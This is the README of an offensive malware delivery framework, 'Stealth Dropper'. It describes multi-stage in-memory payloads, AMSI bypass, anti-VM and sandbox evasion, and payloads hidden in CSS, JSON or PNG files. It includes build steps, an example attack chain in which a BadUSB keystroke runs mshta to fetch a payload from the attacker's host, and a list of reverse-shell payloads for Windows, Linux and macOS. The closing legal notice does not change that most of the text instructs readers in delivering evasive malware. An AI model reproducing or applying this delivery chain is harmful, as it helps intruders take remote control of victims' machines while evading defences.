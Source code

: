 # Stealth Dropper (2025 Edition)

**Multi-stage, multi-OS, in-memory malware delivery framework**

## ✅ Features
- AES-256 encrypted payload delivery
- Full in-memory execution (no file drops)
- Multi-OS support: Windows / Linux / macOS
- Web-based stagers via mshta / rundll32 / regsvr32
- Payload delivery via CSS, JSON, PNG (LSB stego)
- Anti-VM / sandbox detection module
- DuckyScript generation for WiFi BadUSB

---

## 📁 Project Structure
```
stealth-dropper/
├── build_and_run.sh        # main automation script
├── config/                 # config/settings.json
├── core/                   # anti_vm.ps1
├── output/                 # generated stagers + logs
├── payloads/               # raw stage 2 payloads by OS
├── stagers/                # template stage 1 payloads for delivery
├── tools/                  # encryption & embedding tools
└── web/                    # hosted delivery files
```

---

## 🚀 How to Use

### 1. Set encryption key in `.env`
```
ENCRYPTION_KEY=Zxcvbnm1234567890Zxcvbnm1234567890
```

### 2. Run the builder
```bash
chmod +x build_and_run.sh
./build_and_run.sh
```

You'll be prompted to select:
- Target IP and port
- Target OS
- Payload type (e.g. shell_reverse)
- Delivery method (css / manifest / png)

Result:
- Stage 2 is AES-encrypted
- Stage 1 (PowerShell / HTA / SCT) is generated
- Payload is embedded in CSS/JSON/PNG
- Server starts at `http://<your-ip>:<port>`
- DuckyScript saved in `output/ducky_payload.txt`

---

## 🧪 Example Attack Chain (Windows)
```
1. Deliver WiFi Ducky:
   > GUI r
   > mshta http://<your-ip>:8000/decrypt.html

2. HTML decrypts AES payload from CSS/JSON/PNG
3. Executes PowerShell stage 2 in memory
4. Reverse shell connects back to you
```

---

## 📦 Supported Payloads
- `windows/shell_reverse` → raw.ps1 TCP shell
- `windows/lolbins/js_payload.html` → mshta/jscript shell
- `linux/bash_reverse` → raw.sh reverse TCP
- `mac/osascript` → raw.osascript reverse shell

---

## 🔐 Stealth Considerations
- No IEX / no downloadstring / no Invoke-Obfuscation
- AMSI bypass injected in stage 1
- Anti-VM checks built-in (RAM, hostname, vendor)
- No file drops unless explicitly instructed

---

## 🛠 Requirements
- Python 3.8+
- pip install -r requirements.txt
- Dependencies: `python-dotenv`, `pycryptodome`, `Pillow`

---

## ⚠️ Legal Notice
> This project is for educational and authorized testing use only.  
> You are responsible for your actions. Do not deploy without explicit permission.
